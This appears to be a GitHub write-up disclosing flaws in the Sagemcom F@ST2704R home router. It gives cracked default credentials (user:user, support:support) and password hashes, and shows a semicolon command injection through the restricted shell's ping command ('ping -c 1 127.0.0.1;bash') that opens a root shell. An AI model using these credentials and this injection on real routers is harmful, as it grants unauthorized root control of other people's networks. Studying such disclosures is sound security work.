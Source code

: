 # Root shell for everybody!

## Long story short

I went back to my parent's place for a few days. I had quite a surprise: they replaced the nice Cisco router I got them by a Sagemcom F@ST2704R . When I asked them why, they told me the local ISP gave F@ST2704R to their all their clients in the area. Knowing that was quite a lot of clients I decided to take a look at it.

## So... How is it?

This piece of hardware is crap.

Telnet and ssh is activated by default on the LAN. The admin password is a string of 4 random lowercase letters. Wrong start mate.

I logged on telnet to discover the provided shell was somewhat limited. Trying basic unix commands would lead to an error.

```
> ls

telnetd:error:774.006:processInput:406:unrecognized command ls
```

Let's see what we have

```
> help

?
help
logout
exit
quit
reboot
adsl
xdslctl
xtm
brctl
cat
loglevel
logdest
virtualserver
ddns
df
dumpcfg
dumpmdm
dm
meminfo
psp
kill
dumpsysinfo
dnsproxy
syslog
echo
ifconfig
ping
ps
pwd
sntp
sysinfo
tftp
wlctl
arp
defaultgateway
dhcpserver
dns
lan
lanhosts
passwd
ppp
restoredefault
route
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
mcpctl
```


No ls, no cd... I would need more than that. Still, I got cat!
From there, I grab the ```/etc/passwd``` file. There were 2 users I found interesting.

```support:5IkwiJv9RNzV.:0:0:Technical Support:/:/bin/sh
user:75bUXAuHldJ82:0:0:Normal User:/:/bin/sh```

We can see their UID and GID is 0... who the hell gives admin privileges to a user account?????
Cracking the hashes with the tool john, we find the credentials are

```support:support
user:user```

The admin account had at least the decency of using a randomly generated password instead of a hardcoded one...

Trying to log with the support account leads to a dead end, access is denied for some reason.
This is not the case with the "user" account. Typing help in the user prompt gives us a really short list of commands that can be used by the user account.

```> help
?
help
logout
exit
quit
reboot
dnsproxy
ping
lanhosts
passwd
restoredefault
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan```

Let's explore the firmware for more info!

Unfortunately, the F@ST2704R firmware is not available to download, but the F@ST2704 is. It can't be THAT different eh?
wget this stuff, and binwalk the shit out of it!
Not so surprisingly, the binairies we want exist in the /bin folder, the shell we're provided just can't get to it. But we have access to ping...

 ```> ping -c 1 127.0.0.1
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.866 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.866/0.866/0.866 ms```


I wonder if... Let's try some semicolon magic!

```> ls
telnetd:error:997.792:processInput:406:unrecognized command ls
 >
 >
 > ping -c 1 127.0.0.1;ls
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.948 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.948/0.948/0.948 ms
bin      etc      mnt      sbin     usr      webs-EN
data     lib      opt      sys      var      webs-FR
dev      linuxrc  proc     tmp      webs
```

Alright! this way I can get a real shell

``` > ping -c 1 127.0.0.1;bash
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.459 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.459/0.459/0.459 ms


BusyBox v1.17.2 (2013-09-30 17:48:17 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

 Using the username user and the default password user followed by this ping/semicolon loophole gives us access to a shell with administrative rights more easiy than brute-forcing the admin's password (default 4 letters, can be changed for another one up to 16 letters).

 Automated shell sript included lucky bastard!